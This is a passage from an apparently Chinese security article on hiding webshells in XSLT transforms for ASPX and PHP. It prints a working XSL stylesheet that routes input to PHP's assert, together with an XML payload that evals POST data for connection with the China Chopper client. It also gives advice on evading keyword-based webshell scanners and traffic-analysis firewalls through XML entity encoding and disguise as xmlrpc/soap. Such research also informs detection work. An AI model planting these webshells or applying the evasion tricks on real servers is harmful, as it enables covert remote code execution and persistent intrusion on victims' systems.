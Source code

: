 此时可使用菜刀直接进行连接，功能与aspx(eval)完全相同：

![enter image description here](http://drops.javaweb.org/uploads/images/91ab7cdfb97f9621ca9b8f8e1036806e2b58a09e.jpg)

最后要注意：xml的内嵌脚本块需要FullTrust信任等级，在安全模式下不能运行。当然，安全模式下正常的aspx一句话也不能运行，所以并不能算是一个缺点。

0x04 php与xml
============

* * *

在php的官方文档中搜索xsl，将直接定位到XSLTProcessor类，在页面中可以看到很明显的registerPHPFunctions方法。 方法的示例就是一个完整的调用过程，将函数修改为assert并略作精简，可以得到以下xsl：

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:zcg="http://php.net/xsl">
 <xsl:template match="/root">
    <xsl:value-of select="zcg:function('assert',string(.))"/>
 </xsl:template>
</xsl:stylesheet>

```

第二行的http://php.net/xsl这个命名空间URI表示php专用的xsl函数支持，第四行的zcg:function('assert',string(.))表示将匹配节点的文本作为参数传递给php的assert函数。

为了避免xml的转义问题，进行一次assert嵌套，可以得到xml：

```
<root>assert($_POST[a]);</root>

```

由于php并没有上下文的概念，所有的代码都是在同一代码空间中执行，在xsl中可直接访问GPCS，于是可以直接使用菜刀连接：

![enter image description here](http://drops.javaweb.org/uploads/images/e40afb660a5f81c287a7437e8daa22116e0a3cf7.jpg)

同样的功能齐全。

美中不足的是这个功能默认并没有安装，windows上需要修改php.ini启用php_xsl.dll拓展；linux上需要编译时指定--with-xsl或额外安装php5-xsl包。鉴于php的灵活性，此类shell除隐蔽性较高外并无太大必要。

0x05 总结与其他
==========

* * *

在上述基于xslt转换的webshell中，所有的敏感调用都是以字符串形式存在于xml中，避免了基于关键字的webshell查杀。同时，由于xslt是一项正常的功能，对xsl转换器所提供的方法进行查杀、禁用很不实际。例如：msxml组件被大量的系统用于远程文件下载或xmlrpc，基本上是不可能禁用的。 最后，服务端与客户端的交互实质上是通过xml进行的，所以可以伪装成xmlrpc/soap等协议，借助xml的转义将敏感字符转义为实体字符，以躲避基于流量分析的防火墙。例如：将cmd替换为等效的实体字符cmd等。

除了webshell外，xsl转换还有其他可能的利用点。xml支持自动导入xsl，其语法为：

```
<?xml-stylesheet type="text/xsl" href="http://host/template.xsl"?>

```
